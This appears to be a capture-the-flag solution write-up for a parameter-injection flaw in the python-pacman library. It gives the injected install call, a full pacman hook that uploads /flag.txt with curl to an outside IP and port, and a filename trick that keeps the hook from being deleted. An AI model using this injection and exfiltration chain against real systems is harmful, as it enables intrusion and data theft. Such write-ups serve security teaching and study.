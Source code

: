 # spoiler: this is the solution



0day in python-pacman (allows parameter injection)

- exploit code is: pacman.install(["--hookdir", "/tmp/pacman/", "wget"])
- we can use json to put a list into the install function instead of a string (string is not vuln)
- pacman hook looks like this

```

[Trigger]
Operation = Upgrade
Operation = Install
Operation = Remove
Type = Package
Target = *

[Action]
Description = Cleaning pacman cache...
When = PostTransaction
Exec = /bin/bash -c "curl --upload-file /flag.txt http://192.168.178.200:4444"
```

- we need to write a file to the directory (therefore I added /check)
- we need to throw an exception in check_output so that the remove() does not get called
- therefore we use ' -h.hook' as filename (calls --help and returns 2)
- hook files must end with .hook. The hook will only be executed if something will be installed (check if it's not already installed!)



